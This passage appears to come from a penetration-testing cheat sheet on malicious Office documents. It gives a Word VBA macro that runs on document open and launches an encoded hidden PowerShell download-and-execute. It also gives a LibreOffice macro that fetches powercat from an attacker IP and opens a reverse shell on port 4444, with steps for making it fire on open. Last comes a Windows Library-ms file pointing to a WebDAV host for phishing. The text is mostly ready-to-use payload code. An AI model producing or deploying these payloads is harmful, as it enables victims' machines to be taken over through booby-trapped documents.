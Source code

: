 ```vb
        DoEvents  
    Loop Until Now >= DateAdd("s", n, t)  
End Sub
```
#### 3
```vb

Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```
### LibreOffice Macro shell
Goto Tools -> Macros -> Organize Macros -> Basic then create macro within that odt document
```vb
Sub Main
	Shell("cmd /c powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.3/powercat.ps1');powercat -c 192.168.119.3 -p 4444 -e powershell ")
End Sub
```
Then goto customize, Select open document and then Assign our Macro to it.
### Microsoft Library File
[Library File Schema](https://learn.microsoft.com/en-us/windows/win32/shell/library-schema-entry)
Filename: config.Library-ms
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.155</url> <!-- webdav ip -->
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
